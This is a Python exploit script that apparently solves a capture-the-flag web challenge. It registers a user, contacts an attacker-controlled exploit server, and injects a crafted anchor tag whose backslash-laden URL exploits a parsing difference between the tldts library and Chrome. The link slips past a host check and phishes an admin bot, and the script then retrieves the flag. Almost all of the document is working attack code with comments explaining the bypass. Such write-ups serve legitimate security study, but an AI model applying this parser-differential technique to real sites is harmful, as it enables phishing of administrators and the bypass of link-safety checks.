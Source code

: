 ```python
    return ''.join(random.choice(letters) for i in range(stringLength))

s = requests.Session()
username = randomString()
x = s.post(f"{CHALLENGE_URL}/register",json={"username":username})
password = x.json()["password"]

print(f"Username: {username} Password: {password}")

s.get(f"{EXPLOIT_URL_TWO}:3000/username?username={username}")
print("Username sent to exploit server")

s.post(f"{CHALLENGE_URL}/login",json={"username":username, "password":password})

# Step 2. Create the post with the exploit.
#
# The exploit is subtle. We inject an anchor tag which will be clicked by the admin because it contains [Login to view this content].
# We need to bypass the host check.
# The host check is performed in this way:
#
# const { parse } = require('tldts');
# if (parse(a.href).hostname !== parse(req.headers.host).hostname && !isAuth) {
#   a.text = "[Login to view this content]"
#   a.href = "/login";
# }
#
# We need a way to trick the parser to think that we want the admin to click a safe link, but in reality is not.
# The way we can do it is by using the backslash char (\).
# Why? Because in javascript is treated as it is, while on chrome it gets converted to forward slash (/) when used in a link.
# This lead to a parser differential where the admin is phished to our domain.
#

data = {
    "title":"exploit",
    "content":f"""
        <a href='\\\\{EXPLOIT_URL_TWO.replace("http://","")}:9999\\x@fishing-web:3000/../'>[Login to view this content]</a>
    """
}

x = s.post(f"{CHALLENGE_URL}/posts",json=data)

postId = x.json()["postId"]

# Step 3. Submit the post to the admin.

s.post(f"{REPORT_URL}/submit", data={"postId":postId})

print(postId)

print("Now waiting for the admin to do all the stuff, hopefully we flag")
time.sleep(25)
x = s.get(f"{CHALLENGE_URL}/admin/flag")
print(x.text)
```
